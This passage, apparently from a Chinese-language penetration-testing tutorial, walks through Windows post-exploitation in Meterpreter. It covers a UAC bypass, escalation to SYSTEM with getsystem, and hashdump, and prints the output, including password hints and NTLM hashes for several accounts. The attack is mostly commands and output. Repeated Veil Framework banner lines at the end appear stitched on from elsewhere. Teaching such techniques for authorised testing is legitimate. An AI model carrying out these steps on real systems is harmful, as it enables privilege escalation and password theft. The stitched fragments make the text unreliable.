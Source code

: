 从输出的信息中，可以看到目前登录的用户实际上是属于管理组的成员，并且绕过了 UAC 创建了一个新的会话。此时就可以提升用户的权限了。

（6）查看 lyw 用户的信息。执行命令如下所示：

```
meterpreter > getuid
Server username: WIN-RKPKQFBLG6C\lyw 
```

从输出信息中可以看到该用户只是 WIN-RKPKQFBLG6C 计算机中的一个普通用户。

（7）提升 lyw 用户的权限，并查看其用户信息。执行命令如下所示：

```
meterpreter > getsystem
…got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

从输出信息中可以看到当前 lyw 用户，拥有了系统级别的权限。此时，可以进行任何的操作。如捕获目标系统中，用户的密码哈希值。执行命令如下所示：

```
meterpreter > run post/windows/gather/hashdump
[*] Obtaining the boot key…
[*] Calculating the hboot key using SYSKEY 88f6c818af614f7033cb885 74907b61c…
[*] Obtaining the user list and keys…
[*] Decrypting user keys…
[*] Dumping password hints…
Test:"www.123"
abc:“123456”
alice:“passwd”
[*] Dumping password hashes…
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4::: 
```

从输出的信息中，可以看到目标系统中有三个用户，并且可以看到它们的 UID 及密码哈希值。而且，还捕获到三个键盘输入的密码。如捕获的 Test 用户，其密码为 www.123。

 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework